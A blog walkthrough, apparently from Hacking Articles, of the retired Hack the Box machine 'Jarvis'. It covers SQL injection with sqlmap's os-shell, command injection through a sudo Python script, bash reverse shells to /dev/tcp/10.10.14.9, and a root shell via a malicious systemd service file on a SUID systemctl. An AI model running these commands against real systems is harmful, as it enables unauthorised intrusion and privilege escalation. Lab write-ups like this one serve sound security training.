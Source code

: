 ```yaml
---
title: 'Hack the Box- Jarvis Walkthrough'
date: 2020-01-27T18:34:00+01:00
draft: false
---
```


This article is a walkthrough for the retired machine “Jarvis” on Hack the Box. This machine has a static IP address of **10.10.10.143.** Hack the Box is a website to test your hands-on penetration testing on intentionally vulnerable machines.

**Level:** Easy

**Task:** find user.txt and root.txt in the victim’s machine.

### **Penetration Methodology**

**Scanning**

*   Open ports and running services

**Enumeration**

*   Directories enumeration

**Exploitation**

*   Fuzzing to find SQLi
*   Exploiting SQLi using SQLmap
*   Spawning os-shell in SQLmap
*   Getting a meterpreter shell

**Post Exploitation**

*   Enumerating sudoers file
*   Running simpler.py script as user pepper
*   Gaining access to user pepper
*   Post exploitation using SUID set on systemctl
*   Gaining root access

**Snagging the root flag**

Let’s begin

We used the nmap aggressive scan on our target IP **10.10.10.143**  and observed that ports 22 and 80 were open.

![](https://i0.wp.com/1.bp.blogspot.com/-us6gFne8hGA/Xi8Za08npYI/AAAAAAAAihA/dW0CANpKXh4MjipRpswqAOnUO5W6NXZ5QCLcBGAsYHQ/s1600/1.png?w=687&ssl=1)

On moving to the website, we saw a website of some hotel running. The interface was very simple and nothing much could be obtained just by having a look at the source code or even running directory enumeration.

![](https://i0.wp.com/1.bp.blogspot.com/-OGKAKlK8qHQ/Xi8Zc3Zr6gI/AAAAAAAAihQ/PV7MhMA8N481uNf5VJ8DRICh8BH1AuEKACLcBGAsYHQ/s1600/2.png?w=687&ssl=1)

We then tried jumping tabs and testing OWASP Top 10, and luckily, we found SQL injection on the rooms page.

![](https://i2.wp.com/1.bp.blogspot.com/-Ij7HZ9y8Il0/Xi8ZdPIBT6I/AAAAAAAAihY/2wgCHkHcsBEzJ9lynaTlhNtE12Gk1BHyACLcBGAsYHQ/s1600/3.1.png?w=687&ssl=1)

The vulnerable parameter was cod. It was obvious then to run sqlmap on this tamperable URL and see what databases were there on the website.

```
sqlmap –u http://10.10.10.143/room.php?cod=1 --dbs --batch
```

![](https://i1.wp.com/1.bp.blogspot.com/-gE9JB0-wVGA/Xi8ZdLiXdmI/AAAAAAAAihU/3bnJh9jzddAQ8iKS7SHrPvg67_UotdODwCLcBGAsYHQ/s1600/3.png?w=687&ssl=1)

We see 4 databases running on the web application server out of which only one database, i.e, hotels seemed interesting.

![](https://i1.wp.com/1.bp.blogspot.com/-Yf7-NkJd-PM/Xi8Zdi3ILUI/AAAAAAAAihc/2myQklkftZMeyXFT9-UVhPIevPpsNeaVwCLcBGAsYHQ/s1600/4.png?w=687&ssl=1)

We couldn’t find much here and there in databases so it made us go another way. There is this option in sqlmap called the “os-shell” that tries and spawns a shell of the webserver.

```
sqlmap –u http://10.10.1.0.143/room.php?cod=1 --dbs --os-shell --batch
```

![](https://i2.wp.com/1.bp.blogspot.com/-fmrgRQgTpTY/Xi8Zd22ozsI/AAAAAAAAihg/1pyGTEPpBqMpBC11J4zjPkxKAVmbqqv8QCLcBGAsYHQ/s1600/5.png?w=687&ssl=1)

And as expected we landed up with a shell of the server. We confirmed the shell using the command id.

![](https://i0.wp.com/1.bp.blogspot.com/-kPMN0wqScTo/Xi8ZeGjLGLI/AAAAAAAAihk/j7fGZWYoSicIJJrduxd7a5YWWp7tINdyQCLcBGAsYHQ/s1600/6.1.png?w=687&ssl=1)

Now we tried to browse to user.txt but the current user didn’t have the permission to read user.txt.

So, we tried to get access to another user but first, we got out of this really slow and weird os-shell interface using a web\_delivery payload and getting a session on meterpreter back.

![](https://i1.wp.com/1.bp.blogspot.com/-fIkJMnzPpL8/Xi8Ze5Pu4rI/AAAAAAAAiho/NgAa_O_ouEYxZeqE2MKDkLswsWhNIrQagCLcBGAsYHQ/s1600/6.png?w=687&ssl=1)

We copied this python command onto the os-shell teletype and got a familiar teletype with us.

While running, we had a need to change the language from **python** to **python3.**

![](https://i2.wp.com/1.bp.blogspot.com/-JB1pxL3yEtI/Xi8ZfKIY9NI/AAAAAAAAihs/1sWgmaYIQBAN9R7c7PiBHSlD08fRqPg9wCLcBGAsYHQ/s1600/7.png?w=687&ssl=1)

Once, we got our meterpreter session, we immediately got into shell mode using shell command. Then spawned a pseudo teletype using python one-liner and finally checked sudoers file to find out a script called **simpler.py** that had permissions to run as root.

```
shell  
python -c ‘import pty;pty.spawn(“/bin/bash”)’  
sudo -u pepper /var/www/Admin-Utilities/simpler.py
```

![](https://i2.wp.com/1.bp.blogspot.com/-3Rm7wHmM2so/Xi8ZfSOh9nI/AAAAAAAAihw/c94BJToiOMwCWtBoYbQis62X7hw8xVDUACLcBGAsYHQ/s1600/8.png?w=687&ssl=1)

On running the script, we see that it was simply pinging the IP. On further review of the source code, we found out that a simple OS injection wouldn’t have sufficed because all the characters are blacklisted

![](https://i0.wp.com/1.bp.blogspot.com/-wGYK2kNuas8/Xi8Zfkw7kQI/AAAAAAAAih0/KIj2iZtukCMx4l9Hh17R6eta-r2CJwh2wCLcBGAsYHQ/s1600/9.png?w=687&ssl=1)

But we see that $ is not restricted. So, running this script as pepper and running our bash binary inside might give us a shell of the user pepper.

```
sudo -u pepper /var/www/Admin-Utilities/simpler.py -p $(/bin/bash)  
ls  
ls -al  
id
```

**![](https://i0.wp.com/1.bp.blogspot.com/-fE233x61BP0/Xi8Zaq5e0kI/AAAAAAAAig4/duLwM7fiCT8M6uh8KqAeLQ6eZ0lCuLZpACLcBGAsYHQ/s1600/11.png?w=687&ssl=1) **

We tried to run basic commands such as ls, id etc but none of them gave us any output. So, we try to get another shell over netcat using a bash payload

```
bash -i >& /dev/tcp/10.10.14.9/1234 0>&1
```

Here, 10.10.14.9 is my IP.

Let’s open a netcat listener on another terminal window. This time, the shell was better and we are able to read the user.txt flag.

Let’s move towards rooting the box.

The first thing that we tried was to find binaries with SUID bit set.

```
netcat -lvp 1234  
cat user.txt  
find / -perm -u=s -type f 2>/dev/null
```

![](https://i1.wp.com/1.bp.blogspot.com/-yS0oOgWjFBg/Xi8Za4VTfMI/AAAAAAAAig8/L_WDaiMxS8ULW1uGrgYLg9SEjLPY4QYdwCLcBGAsYHQ/s1600/12.png?w=687&ssl=1)

We found systemctl had a SUID bit set. It is fairly evident that if we create a .service file, systemctl would run it as root. Let’s create a service file with name raj.service and add a bash binary in it to be run as root so we get a root bash shell.

Here is the code of the service file:

```
\[Unit\]  
Description=hacking articles  
\[Service\]  
Type=simple  
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.9/8888 0>&1'  
\[Install\]  
WantedBy=multi-user.target
```

![](https://i1.wp.com/1.bp.blogspot.com/-yS0oOgWjFBg/Xi8Za4VTfMI/AAAAAAAAig8/L_WDaiMxS8ULW1uGrgYLg9SEjLPY4QYdwCLcBGAsYHQ/s1600/12.png?w=687&ssl=1)

In this service file, ExecStart command was going to give us a root shell on a netcat reverse listener set up at port 1234. We set up netcat listener and downloaded and this raj.service file in the victim’s system.

```
wget http://10.10.14.9:8000/raj.service  
/bin/systemctl enable /home/pepper/raj.service  
/bin/systemctl start raj
```

![](https://i1.wp.com/1.bp.blogspot.com/-oDWW6t5SYSY/Xi8Zbwdp4lI/AAAAAAAAihI/5Q78zcW_a5YCGU1QhY0ywnPAdXdSgNR1wCLcBGAsYHQ/s1600/15.png?w=687&ssl=1)

On our listener, we were successfully able to get a reverse shell and voila! We got root.

```
nc -lvp 8888  
cd /root  
cat root.txt
```

![](https://i1.wp.com/1.bp.blogspot.com/-hlj_z9Haesk/Xi8ZcNocN1I/AAAAAAAAihM/D2qJNxBNmoII5g0jfjRfzH9YZ1z9txcGQCLcBGAsYHQ/s1600/16.png?w=687&ssl=1)

We snagged the flag and that’s how we got root access to the system. It was a well-balanced lab and there was a lot of new learning. There were no unnecessary exploit development and hence, we’d rate this as **intermediate.**

**Author: Harshit Rajpal **is an InfoSec researcher and left and right brain thinker. contact** [here](https://in.linkedin.com/in/harshit-rajpal-79bb43103)**

The post [Hack the Box- Jarvis Walkthrough](https://www.hackingarticles.in/hack-the-box-jarvis-walkthrough/) appeared first on [Hacking Articles](https://www.hackingarticles.in).

  
  
from Hacking Articles https://ift.tt/38MLIuz